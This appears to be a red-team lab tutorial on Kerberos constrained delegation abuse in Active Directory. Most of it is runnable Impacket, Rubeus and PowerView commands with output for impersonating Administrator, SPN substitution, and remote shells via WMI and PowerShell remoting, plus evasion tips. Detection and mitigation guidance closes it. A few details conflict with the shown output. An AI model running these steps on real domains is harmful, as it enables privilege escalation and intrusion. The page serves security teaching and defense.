

## What Is Constrained Delegation?

Constrained Delegation (KCD — Kerberos Constrained Delegation) is a legitimate AD feature that lets a service authenticate to other backend services *on behalf of* a user who authenticated to it first. For example: a web front-end receives a user login, then needs to query a SQL backend as that same user. Instead of asking the user to authenticate again, constrained delegation lets the front-end carry the user's identity forward to the database.

The constraint is the key word: unlike [Unconstrained Delegation](/docs/kerberos/delegation/unconstrained-delegation/), which lets a service impersonate users to *any* service in the domain, Constrained Delegation locks the allowed targets down. The AD attribute `msDS-AllowedToDelegateTo` (a multi-value list of SPNs — Service Principal Names, the identifiers for specific services on specific hosts, formatted like `service/hostname.domain`) on the delegating account specifies exactly which services it may forward credentials to.

When an attacker compromises an account with constrained delegation configured — especially one with **Protocol Transition** enabled — they can impersonate *any* domain user, including `Administrator`, to those specific allowed services. No target user interaction. No target user credentials. Just the compromised service account's hash or ticket.

**The two delegation modes:**

1. **Kerberos Only** — `msDS-AllowedToDelegateTo` is populated, but the `TRUSTED_TO_AUTH_FOR_DELEGATION` flag is absent from `userAccountControl`. The service can only delegate a user's identity if it already has a *forwardable* TGS (a [Service Ticket](/docs/kerberos/tickets/) marked with the `forwardable` flag, meaning the KDC permits it to be used in a delegation chain) from the actual user. Limited in practice — the real user must have authenticated to the front-end service first.

2. **Any Authentication Protocol / Protocol Transition** — `TRUSTED_TO_AUTH_FOR_DELEGATION` is set (`0x1000000` bit in `userAccountControl`). This unlocks [S4U2Self](/docs/kerberos/delegation/s4u2self-abuse/) (Service for User to Self), which lets the service fabricate a service ticket for *any* user to itself — without that user ever being involved. This is the dangerous mode attackers target.

## How Does Constrained Delegation Abuse Work?

The attack uses two Kerberos extensions defined in Microsoft's MS-SFU (Service for User) specification:

- **S4U2Self** (Service for User to Self) — allows a service, using only its own TGT (Ticket Granting Ticket — the "master ticket" the KDC issues after initial authentication, used to request service tickets), to request a service ticket for any user to *itself*. This synthesizes a forwardable ticket without the target user participating at all. Requires `TRUSTED_TO_AUTH_FOR_DELEGATION` on the account.

- **S4U2Proxy** (Service for User to Proxy) — allows the service to take that S4U2Self ticket and exchange it with the KDC for a service ticket to one of the SPNs listed in `msDS-AllowedToDelegateTo`. The KDC enforces the allowed-to list here. The output is a full service ticket — valid for the backend service — issued in the name of the impersonated user.



The KDC validates the S4U2Proxy request against `msDS-AllowedToDelegateTo`. If the target SPN is not in the list, the KDC rejects the request. The KDC does *not* validate the S4U2Self ticket's authenticity beyond checking that the requesting account has `TRUSTED_TO_AUTH_FOR_DELEGATION` — it trusts the service to identify the user it's acting for.

## What Does Constrained Delegation Abuse Require?

- **A compromised account with constrained delegation configured** — specifically one with `TRUSTED_TO_AUTH_FOR_DELEGATION` set (`userAccountControl` bit `0x1000000`). Kerberos-only mode is less useful without prior user authentication.
- **The account's NT hash or TGT** — to authenticate as the service account and request tickets from the KDC. Obtained via Kerberoasting (if the account has an SPN), [LSASS](/docs/redteam/credential-dumping/) dump, DCSync, or similar.
- **Network access to the KDC** — unlike [Silver Ticket](/docs/kerberos/ticket-attacks/silver-ticket/) forging, both S4U2Self and S4U2Proxy are live KDC requests. You need port 88 (Kerberos) reachable to `dc01.radiant.local`.
- **Network access to the target service** — to use the final ticket against the backend.

## Enumerating Constrained Delegation

Find accounts with constrained delegation before anything else — you need to know which accounts are worth targeting and which SPNs are in scope.


  
`findDelegation.py` is the quickest single-command survey. It queries the domain for all delegation types across all accounts.

```bash
findDelegation.py radiant.local/jdoe:'Password123!' -dc-ip 192.168.56.10
```

- `radiant.local/jdoe:'Password123!'` — authenticating domain account. Any valid domain user works; no elevated privilege needed for this query.
- `-dc-ip 192.168.56.10` — IP address of the domain controller to query.

```
Impacket v0.12.0 - Copyright Fortra, LLC

AccountName  AccountType  DelegationType                      DelegationRightsTo
-----------  -----------  ----------------------------------  -------------------------------------------
svc_sql      Person       Constrained w/ Protocol Transition  MSSQLSvc/sqlserver.radiant.local:1433
svc_iis      Person       Constrained                         HTTP/appserver.radiant.local
DC01$        Computer     Unconstrained                       N/A
```

The `DelegationType` column shows whether Protocol Transition is enabled. `Constrained w/ Protocol Transition` is the exploitable mode — it has `TRUSTED_TO_AUTH_FOR_DELEGATION` set. Plain `Constrained` is Kerberos-only and requires a prior user authentication.

`DelegationRightsTo` shows the exact `msDS-AllowedToDelegateTo` values — these are the SPNs you can delegate to. `svc_sql` can reach `MSSQLSvc/sqlserver.radiant.local:1433`.
  
  
PowerView (part of PowerSploit — a PowerShell-based post-exploitation toolkit) queries AD directly and gives you more detail per account.

**Enumerate user accounts with constrained delegation:**

```powershell
Get-DomainUser -TrustedToAuth -Properties samaccountname,msds-allowedtodelegateto
```

- `Get-DomainUser` — queries LDAP for user objects.
- `-TrustedToAuth` — filters to accounts with `TRUSTED_TO_AUTH_FOR_DELEGATION` set in `userAccountControl`. This is the Protocol Transition flag.
- `-Properties` — limits the output to the two fields you care about.

```
samaccountname            msds-allowedtodelegateto
--------------            ------------------------
svc_sql                   {MSSQLSvc/sqlserver.radiant.local:1433}
```

**Enumerate computer accounts with constrained delegation:**

```powershell
Get-DomainComputer -TrustedToAuth -Properties dnshostname,msds-allowedtodelegateto
```

```
dnshostname                   msds-allowedtodelegateto
-----------                   ------------------------
appserver.radiant.local       {HTTP/webapi.radiant.local, cifs/webapi.radiant.local}
```

Machine accounts (like `APPSERVER$`) can also have constrained delegation configured. If you can compromise a machine account — via LSASS dump on the machine, NTLM relay, or [resource-based constrained delegation](/docs/kerberos/delegation/rbcd/) — they're just as useful as user service accounts.

**Check specific account flags with ADSI (Active Directory Service Interfaces — Windows' built-in API for querying and modifying AD objects):**

```powershell
$acct = [adsi]"LDAP://CN=svc_sql,CN=Users,DC=radiant,DC=local"
[int]$uac = $acct.userAccountControl
"{0:X}" -f $uac
```

```
1020000
```

`0x1000000` (16777216 decimal) present in `userAccountControl` means `TRUSTED_TO_AUTH_FOR_DELEGATION` is set. The full value `0x1020000` in the example output above is `0x1000000 + 0x20000` — the `0x20000` portion is `WORKSTATION_TRUST_ACCOUNT`, a flag present on computer accounts but sometimes seen on service accounts too. The only flag that matters here is confirming bit `0x1000000` is set.
  


## Obtaining the Account's Credential

To run S4U2Self and S4U2Proxy, you need the compromised service account's NT hash or TGT. The path to those credentials depends on your position:

- **Kerberoasting** — if `svc_sql` has an SPN (which it does in this lab), request its TGS from the KDC and crack it offline. See the [Kerberoasting note](/docs/kerberos/kerberoast/) for the full process.
- **LSASS dump** — if you already have code execution on the machine running `svc_sql`, dump LSASS with mimikatz `sekurlsa::logonpasswords` or Rubeus `dump`. See the Silver Ticket note for hash extraction detail.
- **DCSync** — if you have DCSync rights (`Replicating Directory Changes`), `secretsdump.py` pulls the NT hash directly from AD replication. See the [Golden Ticket](/docs/kerberos/ticket-attacks/golden-ticket/) note.

The lab account `svc_sql` with password `Service123!` derives the NT hash `2de8571b7a2dccd7a61a68c4a5a3e2b1` — but in a real engagement you'll crack or extract it. Commands below use the plaintext password where getST.py accepts it directly.

## S4U2Self + S4U2Proxy

This is the core attack. One command in Impacket's `getST.py` handles both S4U2Self and S4U2Proxy in sequence.


  
`getST.py` performs S4U2Self followed immediately by S4U2Proxy and saves the final service ticket as a `.ccache` file (the Linux/MIT Kerberos credential cache format).

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  radiant.local/svc_sql:'Service123!' \
  -dc-ip 192.168.56.10
```

- `-spn MSSQLSvc/sqlserver.radiant.local` — the target SPN from `msDS-AllowedToDelegateTo`. This is where the final ticket will be valid.
- `-impersonate Administrator` — the user to impersonate in S4U2Self. Can be any domain account. Use a real account — impersonating a nonexistent user may succeed at the S4U2Self stage but the PAC will be incomplete.
- `radiant.local/svc_sql:'Service123!'` — the compromised delegating account. The format is `domain/username:'password'`. If you have the NT hash instead of the password, replace the password with `-hashes :NTHash` (see flag note below).
- `-dc-ip 192.168.56.10` — the domain controller IP. getST.py needs to reach the KDC for both S4U exchanges.
- `\` — bash line continuation. The command is one logical line split across multiple physical lines for readability.

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator@MSSQLSvc_sqlserver.radiant.local@RADIANT.LOCAL.ccache
```

**If you have the NT hash instead of the plaintext password:**

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  -hashes :2de8571b7a2dccd7a61a68c4a5a3e2b1 \
  radiant.local/svc_sql \
  -dc-ip 192.168.56.10
```

- `-hashes :2de8571b7a2dccd7a61a68c4a5a3e2b1` — the Impacket hash format: `LMhash:NThash`. The LM hash field is left empty (the colon at the start is required — without it Impacket treats the entire string as LM). The NT hash is the 32-character hex value after the colon.

**If you have a TGT for svc_sql already (as a .ccache file):**

```bash
export KRB5CCNAME=/tmp/svc_sql.ccache
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -impersonate Administrator \
  -k -no-pass \
  radiant.local/svc_sql \
  -dc-ip 192.168.56.10
```

- `-k` — use Kerberos authentication from `KRB5CCNAME` instead of a password.
- `-no-pass` — suppress the password prompt (since `-k` covers authentication).
  
  
Rubeus handles S4U2Self and S4U2Proxy with the `s4u` action. The `/ptt` flag injects the resulting ticket directly into the current Windows logon session so it's immediately usable.

```powershell
.\Rubeus.exe s4u `
  /user:svc_sql `
  /rc4:2de8571b7a2dccd7a61a68c4a5a3e2b1 `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /ptt
```

- `/user:svc_sql` — the compromised service account performing the delegation.
- `/rc4:2de8571b7a2dccd7a61a68c4a5a3e2b1` — the NT hash (RC4 key) for `svc_sql`. This is used to authenticate and obtain the TGT for the S4U exchanges. Use `/aes256:` instead if you have the AES256 key — it blends in better since AES is the modern default.
- `/impersonateuser:Administrator` — the user to synthesize a ticket for in S4U2Self.
- `/msdsspn:MSSQLSvc/sqlserver.radiant.local` — the target SPN for S4U2Proxy. Must be present in `msDS-AllowedToDelegateTo` on `svc_sql`.
- `/ptt` — Pass The Ticket. Injects the final service ticket into the current session immediately. Without this, Rubeus saves the ticket as a base64 blob or `.kirbi` file for manual injection later.
- `` ` `` — PowerShell line continuation character. Equivalent to `\` in bash.

``` {linenos=table}
[*] Action: S4U

[*] Using rc4_hmac hash: 2de8571b7a2dccd7a61a68c4a5a3e2b1
[*] Building AS-REQ (w/ preauth) for: 'radiant.local\svc_sql'
[+] TGT request successful!
[*] base64(ticket.kirbi):
      doIE...

[*] Performing S4U2self with additional S4U2proxy step for user 'Administrator@RADIANT.LOCAL'
[*] Sending S4U2self request to 192.168.56.10:88
[+] S4U2self success!
[*] Got a forwardable ticket for 'Administrator@RADIANT.LOCAL'
[*] Sending S4U2proxy request to 192.168.56.10:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'MSSQLSvc/sqlserver.radiant.local':
      doIFx...
[+] Ticket successfully imported!
```

**Important — what "forwardable ticket for svc_sql" means in the output:**

When Rubeus reports `Got a forwardable ticket for 'svc_sql'` during the S4U2Self stage, the `svc_sql` there refers to the account *performing* S4U2Self, not the impersonation target. The S4U2Self output is a service ticket addressed *to* svc_sql's own SPN, issued on behalf of Administrator. The impersonation happens in the ticket's `cname` field (the client identity) — not in the service name. This confuses beginners reading Rubeus output. The Administrator identity is present; the S4U2Self ticket is just addressed to svc_sql's service, not the backend.

**Using a TGT (.kirbi file) instead of a hash:**

```powershell
.\Rubeus.exe s4u `
  /ticket:C:\Temp\svc_sql.kirbi `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /ptt
```

- `/ticket:C:\Temp\svc_sql.kirbi` — a pre-existing TGT for `svc_sql` in the `.kirbi` format (Windows Kerberos credential file format — binary, typically exported with Rubeus `dump` or `tgtdeleg`).
  


## SPN Substitution

Here is a detail that dramatically expands the usefulness of a constrained delegation primitive: the KDC only validates the **hostname** portion of the SPN when authorizing an S4U2Proxy request. It does not validate the **service class** prefix.

This means if `msDS-AllowedToDelegateTo` lists `MSSQLSvc/sqlserver.radiant.local:1433`, you can request a ticket for `cifs/sqlserver.radiant.local` — the file share service — and the KDC will issue it. The allowed entry said `MSSQLSvc` on that host. You asked for `cifs` on that host. The host matches; the service class mismatch is not checked.

This is called **SPN substitution** or the **altservice trick**. In most cases a machine running SQL Server also runs SMB (`cifs`), `host` (WMI, scheduled tasks, PowerShell remoting), `http`, and `rpcss`. A single constrained delegation entry pointing at the host's hostname is therefore effectively a delegation to all services on that host.


  
Add `-altservice` to the `getST.py` command. This substitutes the service class in the final ticket after S4U2Proxy completes.

```bash
getST.py \
  -spn MSSQLSvc/sqlserver.radiant.local \
  -altservice cifs \
  -impersonate Administrator \
  radiant.local/svc_sql:'Service123!' \
  -dc-ip 192.168.56.10
```

- `-spn MSSQLSvc/sqlserver.radiant.local` — the SPN from `msDS-AllowedToDelegateTo`, used for the S4U2Proxy request to the KDC. The KDC validates this.
- `-altservice cifs` — after the KDC issues the ticket for `MSSQLSvc/sqlserver.radiant.local`, getST.py rewrites the service class to `cifs` before saving. The result is a ticket presenting as `cifs/sqlserver.radiant.local`.

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Changing service from MSSQLSvc/sqlserver.radiant.local@RADIANT.LOCAL to cifs/sqlserver.radiant.local@RADIANT.LOCAL
[*] Saving ticket in Administrator@cifs_sqlserver.radiant.local@RADIANT.LOCAL.ccache
```

Note the filename: `Administrator@cifs_sqlserver.radiant.local@RADIANT.LOCAL.ccache` — getST.py names the file after the *final* service class, not the SPN used in the S4U2Proxy request.
  
  
Rubeus uses the `/altservice` flag. It can accept a comma-separated list to generate tickets for multiple service classes at once.

```powershell
.\Rubeus.exe s4u `
  /user:svc_sql `
  /rc4:2de8571b7a2dccd7a61a68c4a5a3e2b1 `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /altservice:cifs `
  /ptt
```

- `/altservice:cifs` — after S4U2Proxy returns a ticket for `MSSQLSvc/sqlserver.radiant.local`, Rubeus substitutes the service class with `cifs`. This gives you `cifs/sqlserver.radiant.local` — the SMB file share service.

```
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi) for SPN 'cifs/sqlserver.radiant.local':
      doIF...
[+] Ticket successfully imported!
```

**Multiple service classes at once:**

```powershell
.\Rubeus.exe s4u `
  /user:svc_sql `
  /rc4:2de8571b7a2dccd7a61a68c4a5a3e2b1 `
  /impersonateuser:Administrator `
  /msdsspn:MSSQLSvc/sqlserver.radiant.local `
  /altservice:cifs,host,http,rpcss `
  /ptt
```

This injects four tickets in one run — `cifs`, `host` (WMI / PowerShell remoting), `http`, and `rpcss` (DCOM remote execution) — all for `sqlserver.radiant.local`, all as `Administrator`.
  


## Using the Ticket


  
Set `KRB5CCNAME` (the environment variable Linux Kerberos tools use to find the ticket cache) to the `.ccache` file getST.py saved, then use Impacket tools with `-k -no-pass`.

```bash
export KRB5CCNAME=Administrator@MSSQLSvc_sqlserver.radiant.local@RADIANT.LOCAL.ccache
```

**Connect to SQL Server with the original MSSQLSvc ticket:**

```bash
mssqlclient.py -k -no-pass sqlserver.radiant.local
```

- `-k` — use Kerberos authentication from `KRB5CCNAME`.
- `-no-pass` — suppress the password prompt.

``` {linenos=table}
Impacket v0.12.0 - Copyright Fortra, LLC

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DBSERVER\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DBSERVER\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (RADIANT\Administrator  dbo@master)>
```

The prompt confirms authentication as `RADIANT\Administrator`.

**If you used `-altservice cifs`, connect to the file share instead:**

```bash
export KRB5CCNAME=Administrator@cifs_sqlserver.radiant.local@RADIANT.LOCAL.ccache
smbclient.py -k -no-pass radiant.local/Administrator@sqlserver.radiant.local
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

Type help for list of commands
# shares
ADMIN$
C$
IPC$
Data
```

`C$` is the hidden administrative share exposing the entire C: drive of the remote machine. Access to it means full read/write on the filesystem as `Administrator`.

**Remote code execution via WMI (Windows Management Instrumentation — a Windows API for remote management and execution) using a `host` ticket:**

```bash
export KRB5CCNAME=Administrator@host_sqlserver.radiant.local@RADIANT.LOCAL.ccache
wmiexec.py -k -no-pass radiant.local/Administrator@sqlserver.radiant.local
```

```
Impacket v0.12.0 - Copyright Fortra, LLC

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
radiant\administrator
```
  
  
If you used `/ptt`, the ticket is already in your session. Confirm with `klist` then access the target directly.

**Verify the ticket is loaded:**

```powershell
klist
```

``` {linenos=table}
Current LogonId is 0:0x4f2b6

Cached Tickets: (1)

#0>     Client: Administrator @ RADIANT.LOCAL
        Server: MSSQLSvc/sqlserver.radiant.local @ RADIANT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 3/12/2026 10:00:00 (local)
        End Time:   3/12/2026 20:00:00 (local)
        Renew Time: 3/19/2026 10:00:00 (local)
```

The `Client: Administrator` line confirms the impersonation. The `Server: MSSQLSvc/sqlserver.radiant.local` line confirms the target.

**Connect to SQL Server:**

Windows will pass the injected Kerberos ticket automatically for any application using Windows Integrated Authentication. Use `sqlcmd` (the SQL Server command-line tool) or SSMS (SQL Server Management Studio — the graphical SQL Server admin tool):

```powershell
sqlcmd -S sqlserver.radiant.local -Q "SELECT SYSTEM_USER" -E
```

- `-S sqlserver.radiant.local` — target SQL Server hostname.
- `-Q "SELECT SYSTEM_USER"` — run a query and exit. `SYSTEM_USER` returns the currently authenticated Windows login — confirms impersonation.
- `-E` — use Windows Integrated Authentication (Kerberos ticket from the session).

```
---------------------------------
RADIANT\Administrator

(1 rows affected)
```

**Access file shares (if you used `/altservice:cifs`):**

```powershell
dir \\sqlserver.radiant.local\C$
```

```
 Volume in drive \\sqlserver.radiant.local\C$ is OS

 Directory of \\sqlserver.radiant.local\C$

03/10/2026  12:00    <DIR>          inetpub
03/10/2026  12:00    <DIR>          PerfLogs
03/10/2026  12:00    <DIR>          Program Files
03/10/2026  12:00    <DIR>          Users
03/10/2026  12:00    <DIR>          Windows
```

**Remote PowerShell session (if you used `/altservice:host`):**

`Enter-PSSession` is the PowerShell equivalent of SSH — it opens an interactive remote shell on the target machine over WinRM (Windows Remote Management).

```powershell
Enter-PSSession -ComputerName sqlserver.radiant.local -Authentication Kerberos
```

```
[sqlserver.radiant.local]: PS C:\Users\Administrator\Documents> whoami
radiant\administrator
```

**If you saved a ticket to disk instead of using `/ptt`, inject it first:**

```powershell
.\Rubeus.exe ptt /ticket:C:\Temp\admin_mssql.kirbi
```

Then proceed with the access commands above.
  


## Lab Setup Note

To configure Protocol Transition (the `TRUSTED_TO_AUTH_FOR_DELEGATION` flag) on DC01, run the following from an elevated PowerShell on DC01 (as `RADIANT\Administrator`). The backtick `` ` `` is PowerShell's line continuation character:

```powershell
Set-ADUser svc_sql -ServicePrincipalNames @{Add="MSSQLSvc/sqlserver.radiant.local:1433","MSSQLSvc/sqlserver.radiant.local"}

Set-ADAccountControl svc_sql -TrustedToAuthForDelegation $true

Set-ADUser svc_sql -Add @{'msDS-AllowedToDelegateTo'=@('MSSQLSvc/sqlserver.radiant.local:1433','MSSQLSvc/sqlserver.radiant.local')}
```

`TrustedToAuthForDelegation` sets the `TRUSTED_TO_AUTH_FOR_DELEGATION` bit (`0x1000000`) in `userAccountControl`. Do not confuse this with `TrustedForDelegation` (unconstrained delegation — a much broader privilege). Verify after applying:

```powershell
Get-ADUser svc_sql -Properties TrustedToAuthForDelegation, msDS-AllowedToDelegateTo |
  Select-Object TrustedToAuthForDelegation, msDS-AllowedToDelegateTo
```

```
TrustedToAuthForDelegation msDS-AllowedToDelegateTo
-------------------------- ------------------------
                      True {MSSQLSvc/sqlserver.radiant.local:1433, MSSQLSvc/sqlserver.radiant.local}
```

## Operational Notes

**Tickets expire normally.** Unlike forged Silver Tickets (which the attacker sets to any lifetime), S4U2Proxy tickets are issued by the real KDC and expire on the normal Kerberos schedule — 10 hours by default. Re-run `getST.py` or Rubeus `s4u` when they expire.

**The KDC enforces msDS-AllowedToDelegateTo — SPN substitution does not bypass the hostname check.** SPN substitution works because the KDC only checks the hostname portion during S4U2Proxy authorization, not the service class. You cannot request delegation to a host that isn't in the allowed list. `MSSQLSvc/sqlserver.radiant.local` allows any service class on `sqlserver.radiant.local` — it does not allow `cifs/otherserver.radiant.local`.

**Protected Users group blocks Protocol Transition.** Members of the `Protected Users` security group (a hardened group in Windows Server 2012 R2+ that disables RC4 Kerberos, delegation, and credential caching) cannot be impersonated via S4U2Self. If `Administrator` is in `Protected Users`, S4U2Self will return an error or a non-forwardable ticket that S4U2Proxy will reject. Try impersonating a different privileged account that is not protected.

```
[Errno Connection error (dc01.radiant.local:88)] [Errno None] [Errno 111] ...
```

If you see KDC errors referencing `KDC_ERR_BADOPTION` or `KDC_ERR_POLICY`, the impersonation target is likely protected from delegation.

**RC4 vs AES.** Rubeus `/rc4:` and getST.py `-hashes :NThash` both use RC4 (NTLM) for the TGT request. In environments with RC4 disabled or with alerting on RC4 Kerberos pre-authentication, supply the AES256 key with `/aes256:` (Rubeus) or `-aesKey` (getST.py). The attack works either way; AES blends in better with normal traffic.

**Kerberos-only mode still works — it's just harder.** If `TRUSTED_TO_AUTH_FOR_DELEGATION` is not set, S4U2Self is unavailable. But if the real user authenticates to the front-end service, you can capture their forwardable TGS (via LSASS dump on the front-end, if you have access to it) and submit it to S4U2Proxy directly. Both Rubeus and getST.py support providing an existing TGS for the proxy step.

**The `ok_as_delegate` ticket flag.** In the `klist` output you may see `ok_as_delegate` in the `Ticket Flags` line. This flag is set by the KDC on tickets for services that have `TRUSTED_TO_AUTH_FOR_DELEGATION` configured. It's an informational signal to the client that the service is permitted to delegate. It does not affect exploit capability but confirms you're looking at a delegation-capable account's ticket.

## How Do You Detect and Defend Against Constrained Delegation Abuse?

### What Logs Does Constrained Delegation Abuse Generate?

- **Event ID 4769** (A service ticket was requested) on the DC — S4U2Self and S4U2Proxy each generate a 4769. The S4U2Self request has a `Transited Services` field populated with the requesting service account's SPN. Look for 4769 events where `Transited Services` is non-empty — that field is populated exclusively by S4U extension requests, not normal user-to-service authentication.
- **Event ID 4648** (A logon was attempted using explicit credentials) — can appear alongside S4U requests.
- **Event ID 4624** (Logon succeeded) on the target service host — Type 3 (network) logon as the impersonated user. If `Administrator` logs on to `sqlserver.radiant.local` but there is no interactive session and no corresponding 4769 from the user themselves, that mismatch is suspicious.
- **Microsoft Defender for Identity (MDI)** generates an alert titled "Suspected Kerberos delegation abuse (S4U2Proxy)" specifically for anomalous S4U2Proxy chains.

### What Logs Does Constrained Delegation Abuse Not Generate?

- **No pre-authentication event for the impersonated user** — `Administrator` never contacts the KDC. The KDC sees S4U2Self from `svc_sql` synthesizing a ticket on `Administrator`'s behalf. There is no Event ID 4768 (TGT requested) for `Administrator` — they never authenticated.
- **No 4769 sourced from the impersonated user** — the 4769 for the final service ticket is attributed to `svc_sql` (the delegating account), not `Administrator` (the identity in the ticket). An analyst looking only at `Administrator`'s Kerberos activity will see nothing.
- **SPN substitution generates no additional logs** — the ticket rewrite happens client-side after S4U2Proxy returns. The KDC only sees the original `MSSQLSvc` SPN request. The `cifs` ticket used to access `C$` never appears in DC logs.

### How Do You Mitigate Constrained Delegation Abuse?

- **Add Administrator (and all Tier-0 accounts) to the Protected Users group** — this prevents them from being impersonated via S4U2Self. Protected Users disables Kerberos delegation for those accounts, both as delegators and as delegation targets.
- **Mark sensitive accounts as "Account is sensitive and cannot be delegated"** — the AD flag `NOT_DELEGATED` (`0x100000` in `userAccountControl`) prevents the account's tickets from being used in any delegation chain. Set this on service accounts, privileged users, and any account that should never be delegated.
- **Minimize accounts with TRUSTED_TO_AUTH_FOR_DELEGATION** — audit `msDS-AllowedToDelegateTo` and `userAccountControl` for the Protocol Transition flag regularly. Most environments have far more accounts configured for constrained delegation than they actually need.
- **Use Group Managed Service Accounts (gMSA)** for services instead of regular user accounts. gMSA passwords are automatically rotated by AD, are 256-bit random values, and are never exposed in plaintext. Combined with minimal delegation scope, gMSA accounts significantly raise the bar for abuse.
- **Enforce AES-only Kerberos** — disable RC4 and DES via Group Policy. This forces attackers to obtain the AES key (harder than cracking an RC4 TGS) and makes RC4-based S4U requests immediately anomalous.
- **Restrict constrained delegation scope** — review every entry in `msDS-AllowedToDelegateTo`. Use the most specific SPN possible (include the port number, like `MSSQLSvc/sqlserver.radiant.local:1433`, not just the hostname). This does not stop SPN substitution, but it forces the attacker's hand to the specific host rather than any listed host.
- **Tier 0 isolation** — accounts with access to domain controllers should not be reachable via constrained delegation chains that pass through Tier 1 or Tier 2 infrastructure. A compromised IIS account should not be able to delegate to `ldap/dc01.radiant.local`.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — dedicated alert "Suspected Kerberos delegation abuse" targeting S4U2Proxy chains where the delegating account impersonates a privileged user. Also alerts on "Honeytoken activity" if honeytoken accounts are impersonation targets.
- **Microsoft Sentinel** — build a correlation: 4769 events where `Transited Services` is non-empty joined to 4624 events on the target host where the authenticated account has no recent 4768/4769 of its own. The gap between delegated authentication and direct authentication is the signal.
- **Splunk** — same correlation across Windows Security logs forwarded from DCs and member servers. The `Transited Services` field in 4769 events is the key field — index it and alert on any non-empty value.
- **[Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 10** — LSASS process access on machines where `svc_sql` runs. Catching the credential theft phase before the delegation chain is invoked is more reliable than detecting the S4U requests themselves, since those look like normal Kerberos traffic.
- **Zeek / network IDS** — S4U2Self and S4U2Proxy have distinct Kerberos message structures. Zeek's `kerberos.log` captures `TGS-REQ` fields including `pa-data` types and `additional-tickets`. An analyst who knows what S4U extension messages look like can detect them at the wire level without relying on Windows event logs.

## References

### Specifications
- [MS-SFU — Kerberos Protocol Extensions: Service for User and Constrained Delegation Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/) — the authoritative Microsoft specification defining S4U2Self and S4U2Proxy
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)

### Research
- Charlie Clark (Semperis) — constrained delegation abuse analysis covering S4U extension mechanics, SPN substitution scope, and the distinction between Kerberos-only and Protocol Transition modes
- harmj0y — "S4U2Pwnage" — original post mapping the S4U attack surface; introduced the altservice trick and Protocol Transition abuse as offensive primitives

### Tools
- [Impacket](https://github.com/fortra/impacket) — `getST.py` (S4U2Self + S4U2Proxy + altservice), `findDelegation.py` (enumeration), `mssqlclient.py`, `smbclient.py`, `wmiexec.py`
- [Rubeus](https://github.com/GhostPack/Rubeus) — `s4u` action with `/impersonateuser`, `/msdsspn`, `/altservice`, `/ptt`
- [mimikatz](https://github.com/gentilkiwi/mimikatz) — `sekurlsa::logonpasswords`, `sekurlsa::ekeys` for credential extraction; `kerberos::ptt` for manual ticket injection
- [PowerSploit / PowerView](https://github.com/PowerShellMafia/PowerSploit) — `Get-DomainUser -TrustedToAuth`, `Get-DomainComputer -TrustedToAuth` for delegation enumeration
